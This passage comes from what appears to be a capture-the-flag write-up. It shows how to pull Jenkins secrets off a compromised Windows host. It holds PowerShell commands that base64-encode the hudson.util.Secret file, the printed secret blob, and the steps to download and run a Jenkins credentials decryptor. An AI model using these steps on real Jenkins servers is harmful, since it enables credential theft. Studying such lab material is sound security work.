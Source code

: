 I can verify I got the full thing by making sure it’s the same length, 256 bytes:

```
oxdf@hacky$ wc -c master.key 
256 master.key
```

`hudson.util.Secret` looks like a binary file:

```
cmd /c powershell -c [convert]::ToBase64String((cat ../../secrets/hudson.util.Secret -Encoding byte))
```

![image-20220228165017916](https://0xdf.gitlab.io/img/image-20220228165017916.png)

I’ll use PowerShell to base64 [encode it](https://docs.microsoft.com/en-us/previous-versions/troubleshoot/winautomation/process-development-tips/text-manipulation/convert-file-to-base64-string-format):

```
C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\0xdf's job>powershell -c [convert]::ToBase64String((cat ..\..\secrets\hudson.util.Secret -Encoding byte)) 
gWFQFlTxi+xRdwcz6KgADwG+rsOAg2e3omR3LUopDXUcTQaGCJIswWKIbqgNXAvu2SHL93OiRbnEMeKqYe07PqnX9VWLh77Vtf+Z3jgJ7sa9v3hkJLPMWVUKqWsaMRHOkX30Qfa73XaWhe0ShIGsqROVDA1gS50ToDgNRIEXYRQWSeJY0gZELcUFIrS+r+2LAORHdFzxUeVfXcaalJ3HBhI+Si+pq85MKCcY3uxVpxSgnUrMB5MX4a18UrQ3iug9GHZQN4g6iETVf3u6FBFLSTiyxJ77IVWB1xgep5P66lgfEsqgUL9miuFFBzTsAkzcpBZeiPbwhyrhy/mCWogCddKudAJkHMqEISA3et9RIgA=
```

Now I can copy that string and `echo` it into `base64 -d` on my local system to save it to a file.

Downloading the Go binary from jenkins-credential-decryptor like in [these instructions](https://github.com/hoto/jenkins-credentials-decryptor#run-using-a-binary) works great:

```
oxdf@hacky$ curl -L \
>   "https://github.com/hoto/jenkins-credentials-decryptor/releases/download/1.2.0/jenkins-credentials-decryptor_1.2.0_$(uname -s)_$(uname -m)" \
>    -o jenkins-credentials-decryptor
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   687  100   687    0     0   5088      0 --:--:-- --:--:-- --:--:--  5088
100 2336k  100 2336k    0     0  4382k      0 --:--:-- --:--:-- --:--:-- 10.3M
oxdf@hacky$ chmod +x jenkins-credentials-decryptor
oxdf@hacky$ ./jenkins-credentials-decryptor 
Please provide all required flags.

Usage:

  jenkins-credentials-decryptor \
    -m master.key \
    -s hudson.util.Secret \
    -c credentials.xml \
    -o json

Flags:

  -c string
        (required) credentials.xml file location
  -m string
        (required) master.key file location
  -o string
        (optional) output format [json|text] (default "json")
  -s string
        (required) hudson.util.Secret file location
  -version
        (optional) show version

```